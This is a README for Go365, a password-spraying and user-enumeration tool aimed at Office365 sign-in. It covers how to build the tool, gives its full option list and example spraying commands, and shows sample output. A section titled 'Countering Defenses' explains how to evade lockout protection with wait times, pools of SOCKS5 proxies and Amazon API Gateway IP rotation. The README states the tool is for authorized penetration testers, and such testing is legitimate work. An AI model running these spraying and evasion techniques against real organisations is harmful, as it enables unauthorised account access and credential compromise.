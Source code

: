 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration* and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.

\* User enumeration is performed in conjunction with a password guess attempt. Thus, there is no specific flag or funtionality to perform only user enumeration. Instead, conduct your first password guessing attack, then parse the results for valid users.

##### Read these three bullets!

- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.

## Obtaining

#### Option 1

Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2

Download the source and compile locally.

1. Install Go.
2. Go get some packages:

```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
```

3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```

5. Run the resulting binary and enjoy :)

## Usage

```
$ ./Go365 -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.2
 Authors: h0useh3ad, paveway3, S4R1N, EatonChips

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

	 Required:
     -u string              Username to use
                              - Username with or without "@domain.com"
                              (-u legit.user)
     -ul <file>             Username list to use
															- File should contain one username per line
															- Usernames can have "@domain.com"
                              - If no domain is specified, the -d domain is used
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - Enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -pl <file>            Password list to use
                              - File should contain one password per line
                              - Must be used with -delay
                              (-pl ./passwordlist.txt)
     -up <file>            Userpass list to use
															- One username and password separated by a ":" per line
                              - Be careful of duplicate usernames!
                              (-up ./userpasslist.txt)
     -d <string>            Domain to test
                              (-d testdomain.com)

   Optional:
     -w <int>              Time to wait between attempts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -delay <int>          Delay (in seconds) between sprays when using a password list.
                              - Default: 10 minutes. 60 minutes (3600 seconds) recommended.
                              (-delay 600)
     -o <string>           Output file to write to
                              - Will append if file exists, otherwise a file is created
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)
     -url <string>          Endpoint to send requests to
                              - Amazon API Gateway 'Invoke URL'
                              (-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login)
     -debug                 Debug mode.
                              - Print xml response
```

### Examples

```
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
./Go365 -up ./userpass_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt
./Go365 -u legituser@pwnthisfakedomain.com -p 'coolpasswordbro!123' -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
./Go365 -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.

```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```

This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.

### Countering Defenses

#### Wait time

The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. `-w 15`

#### SOCKS5 Proxies

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (`ssh -D <port> user@proxyserver`)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:

```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```

The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

`-w 15 -proxyfile ./proxies.txt`

#### Amazon API Gateway

Additionally, an endpoint url may be specified so this tool can interface with Amazon API Gateway. Setup a gateway to point to the `https://login.microsoftonline.com/rst2.srf` endpoint, then set the -url parameter to the provided `Invoke URL`. Your IP should be rotated with each request.

`-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login`
